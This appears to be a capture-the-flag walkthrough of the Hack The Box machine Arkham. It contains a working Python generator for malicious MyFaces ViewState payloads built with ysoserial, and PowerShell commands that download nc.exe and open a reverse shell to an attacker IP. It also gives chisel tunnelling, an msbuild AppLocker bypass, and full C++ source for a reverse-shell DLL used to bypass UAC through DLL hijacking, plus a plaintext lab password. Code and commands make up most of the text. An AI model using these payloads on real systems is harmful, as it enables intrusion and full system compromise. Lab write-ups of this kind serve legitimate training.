





+++

title = "ARKHAM-writeup"

+++

Arkham we begin out journey with with the webpage on port 8080. the website use apache my faces or java server faces. Well write a python script to construct our own malicious Myfaces payload. We'll find the information need to build out payload in the smb shares. from there we will get a shell, and exfil a file decrypt that, gain a winrm shell. From there we will latterally move to batman, then escalate to Adminsitrator high jacking a dll. 

I ran a bunch of nmap scans in the raw notes. 

```
nmap -oA nmap/tcp-connect 10.10.10.130
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-25 12:31 EDT
Nmap scan report for 10.10.10.130
Host is up (0.044s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8080/tcp open  http
```

So theres a share called <mark>Batshare</mark> with a file call appserver.zip. 

```
smbmap -u guest -H 10.10.10.130 -r                                                                                         
[+] Finding open SMB ports....                                                                                                                               
[+] User SMB session establishd on 10.10.10.130...                                                                                                           
[+] IP: 10.10.10.130:445        Name: 10.10.10.130                                                                                                           
        Disk                                                    Permissions                                                                                  
        ----                                                    -----------                                                                                  
        ADMIN$                                                  NO ACCESS                                                                                    
        BatShare                                                READ ONLY                                                                                    
        ./                                                                                                                                                   
        dr--r--r--                0 Sun Feb  3 08:04:13 2019    .                                                                                            
        dr--r--r--                0 Sun Feb  3 08:04:13 2019    ..                                                                                           
        fr--r--r--          4046695 Sun Feb  3 08:04:13 2019    appserver.zip 
```

Run smbclient, since guest is default you dont need to list the user. When prompted for the password, HIT ENTER.

```
smbclient //10.10.10.130/BateShare
mget appserver.zip
```

*HASHCAT*

The backup image is envrypted using luk which is a linux disk encryptino. 

```
hashcat -m 14600 -a 0 -w 3 hashes\backup.img rockyou.txt -o found

```


**LUKS** Linux Unified Key Setup

is a disk encryption, created by Fruhwirth in 2004, was originally intended for linux. Well be trying to decrypt the **LUKS** encrypted volume. Well use the cryptsetup tool to decrypt the volume. i know i did it a different way some how but i didn't record it. lame. 

```
file backup.img
cryptsetup open --type luks backup.img batman
ls -l /dev/mapper/ 
mkdir /mnt/arkham
mount /dev/mapper/batman /mnt/batman
```

We'll notice that there are some images and some tomcat stuff and a batman begins screen play. This will give us the encryption algoryth need for the myfaces. using grep to find the file need <mark>web.xml.bak</mark>, this tells us the secret used to encrypt the myfaces. mauahahahahaha. SnNGOTg3Ni0 is a base64 encoded string. 

```
SnNGOTg3Ni0=
JsF9876-
HmacSHA1
```

```
<param-name>org.apache.myfaces.SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>
    <context-param>
        <param-name>org.apache.myfaces.MAC_ALGORITHM</param-name>
        <param-value>HmacSHA1</param-value>
     </context-param>
<context-param>
<param-name>org.apache.myfaces.MAC_SECRET</pavram-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>
```



**PHASE2** 

Now that we have all the intell we need to take advantage of the apache myfaces. we'll take a look at the webapp now and start poking around. there are two webpage 80 then 8080. Navigate to 8080 then go to subscriptions. well be attacking the subscription page. I took the the viewstate and used cyberchief to decode then decrypt the string. 










viewstate is encrypted & encoded on top of that it has a hash it uses to verify it hasn't been changed. the cipher used is single des by default( DEFAULT). Then a hash is taken of the encrypted string. All of that is bundled by encoding everything in base64. So to decrypt everything used python module crypto & some other modules but they are pretty common i suppose. i had some trouble getting everything right so i used allot of prints to get the right, output. for more example at the test script go to my notes. 

the hmac takes up 20 bytes at the end. Ysoserial encryption type or whatever CommonsCollections5 

i made a bunch of methods that i call at the end to assemble it int he order i want. 

```
#from Crypto.Util.Padding import pad, unpad
from Crypto.Cipher import DES
from Crypto.Hash import HMAC, SHA1
import base64
import subprocess
import urllib

command = raw_input('Command: ')
ysoserial = b'java -jar /opt/ysoserial/ysoserial.jar CommonsCollections5 \'' + command + '\''
payload = subprocess.check_output(ysoserial, stderr=subprocess.STDOUT, shell=True)

def decrypt_vs(data):
    key = 'JsF9876-'
    mode = DES.MODE_ECB
    cipher = DES.new(key, mode)
    return cipher.decrypt(data)
def encrypt_vs(data):
    key = 'JsF9876-'
    mode = DES.MODE_ECB
    cipher = DES.new(key, mode)
    pad = (8 - (len(data) % 8)) % 8
    padded = data + (chr(pad)*pad).encode()
    return cipher.encrypt(padded)
def hmac_vs(data):
    key = 'JsF9876-'
    mode = digestmod=SHA1
    h = HMAC.new(key, data, mode)
    return h.digest()

#pad payload it needs to be in the padded state to be
#to be hashed/ viewstate to make a proper hash
purevs = encrypt_vs(payload)
enmac = (hmac_vs(purevs))
raw = purevs + enmac
encoded = (raw).encode("base64").replace('\n','')
pleasesubscribe = (urllib.quote_plus(encoded))
print (pleasesubscribe) # why not lol
```

**Shell**

​	Since it seem like there are some limitation most likely i can't run new-object. well use invoke web-request to write out payload to disk then run a second command to get our shell, payload of choice is nc.exe.

```
powershell iwr 'http://10.10.14.2/nc.exe' -outfile c:\windows\system32\spool\drivers\color\nc.exe  
		-c command switch if you want
c:\windows\system32\spool\drivers\color\nc.exe -e cmd.exe 10.10.14.2 9913
```

**CLUES.BAK**

This part will have a couple of steps firstly setting up a tunnel to arkhams, localhost and gaining access to 5985. my notes say i was able to get alfreds creds to work. i remember seeing it alfred in my winrm directory. i digres, Notice the timestamps in alfreds directory. the ones changes between 8:48 to 9:33am are the newest and most interesting. Downloads has a backup folder with our prize backup.zip. 

*CHISEL*

to get chisel running well download [chiselxamd64.exe](https://github.com/jpillora/chisel/releases/download/1.3.1/chisel_windows_amd64.exe.gz), download this as well the run go <mark>go build</mark>. i renamed the binary chisel-server.

```
./chisel-server server -p 9020 --reverse -v 
.\c.exe client 10.10.14.2:9020 R:5985:127.0.0.1:5985
```

im broke and i dont have allot of the windows office crap. i was able to find a tool called pstwalker they constantly bug you for money prolly infected my system. 

" This was pretty tough to find the right tool to open the outlook file. pstwalker it will try and get you to pay for stuff but thats not needed with a little tinkering i was able to get the message. "


**BATMAN**

Username: Batman 	Password: <mark>Zx^#QZX+T!123'</mark>


were foolishly given access to msbuild which is use to compile binaries mauahahahahahahahahah. well use this to bypass all the crap in our way and move on to victory. 

csproj download https://github.com/Cn33liz/MSBuildShell

<mark></mark>

[Bypassing AV CLM or UAC'](https://github.com/MinatoTW/CLMBypassBlogpost/blob/master/Bypass/Bypass.csproj)s user account controls. super lame booo i think applockers in there to grouppolicy. I used 

@minatotw_ .csproj file sinces its like one of the ones i could find to bypass everything. i end up using a nishang Invoke-tcp.ps1 then pivoting and getting a meterpreter shell so i can gain access to the gui's 

```
iwr "http://10.10.14.2/minato.csproj" -outfile .\pinkie.csproj
c:\windows\microsoft.NET\Framework64\v4.0.30319\msbuild.exe .\pinkie.csproj
```

setup netcat and check and make sure python http server is running. 

*Assembling the DLL*

There are there parts to a dll when it comes to compiling them dllmain.cpp the payload revshell.cpp and a header file rev_shell.h. i tried compiling this in visual studios, i also tried the msfvenom build dlls. Defender Laughs.

***dllmain.cpp*** I tried awhole host of different dllmains this is the one i got to work. it calls in the header section revshell.h, DLL_PROCESS cal the revshell and assembles our payload.  

```
#include "rev_shell.h"
#include <windows.h>
#include <stdio.h>

BOOL WINAPI DllMain( HINSTANCE hinstDLL,
                        DWORD fwdReason,
                        LPVOID lpReservered)
{
        switch (fwdReason)
        {
        case DLL_PROCESS_ATTACH:
                rev_shell();
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
                break;
        }
        return TRUE;
}
```

***revshell.cpp*** CHANGE THE REMOTE_PORT AND REMOTE_ADDR

```
#include <stdio.h>                                                                               
#include <string.h>
#include <process.h>
#include <winsock2.h>
#include <ws2tcpip.h>

#pragma comment(lib, "Ws2_32.lib")

#define REMOTE_ADDR "10.10.14.2"
#define REMOTE_PORT "9135"

void rev_shell()
{
        FreeConsole();

        WSADATA wsaData;
        int iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
        struct addrinfo *result = NULL, *ptr = NULL, hints;
        memset(&hints, 0, sizeof(hints));
        hints.ai_family = AF_UNSPEC;
        hints.ai_socktype = SOCK_STREAM;
        hints.ai_protocol = IPPROTO_TCP;
        getaddrinfo(REMOTE_ADDR, REMOTE_PORT, &hints, &result);
        ptr = result;
        SOCKET ConnectSocket = WSASocket(ptr->ai_family, ptr->ai_socktype, ptr->ai_protocol, NULL, NULL, NULL);                                              
        connect(ConnectSocket, ptr->ai_addr, (int)ptr->ai_addrlen);
        STARTUPINFO si;
        PROCESS_INFORMATION pi;
        ZeroMemory(&si, sizeof(si));
        si.cb = sizeof(si);
        ZeroMemory(&pi, sizeof(pi));
        si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
        si.wShowWindow = SW_HIDE;
        si.hStdInput = (HANDLE)ConnectSocket;
        si.hStdOutput = (HANDLE)ConnectSocket;
        si.hStdError = (HANDLE)ConnectSocket;
        TCHAR cmd[] = TEXT("C:\\WINDOWS\\SYSTEM32\\CMD.EXE");
        CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
        WaitForSingleObject(pi.hProcess, INFINITE);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
	    WSACleanup();
}
```

***rev_shell.h***

```
#pragma Once

void rev_shell();
```

***Compiling the DLL*** -

https://egre55.github.io/system-properties-uac-bypass/

https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/

Firstly install mingw there are a bunch of version you want, no need them all. <mark>apt-get install mingw*</mark> my notes were pretty confusing. after it's compiled move it over to the python web server then drop it to disk with invoke web request. drop the file in <mark>c:\users\batman\appdata\local\microsoft\windowsapps\ </mark>. Then we'll run <mark>c:\windows\system32\systempropertiesAdvanced.exe </mark> or <mark>c:\windows\syswow64\systempropertiesAdvanced.exe</mark>

```
x86_64-w64-mingw32-gcc -shared -o death-piex86.dll dllmain.cpp revshell.cpp rev_shell.h -lws2_32
```

on arkham do the following

```
cd c:\users\batman\appdata\local\microsoft\windowsapps
powershell iwr 'http://10.10.14.2/death-piex86.dll' -outfile .\srrstr.dll
```

BE SURE TO SETUP A NETCAT LISTENER locally

```
nc -lcnp 9135 :P
```

```
c:\windows\syswow64\systempropertiesAdvanced.exe
```

You'll notice you are still batman when you run <mark>whoami</mark> you are in a elevated session the session has the permissions associated with <mark>systempropertiesadvanced.exe</mark> 

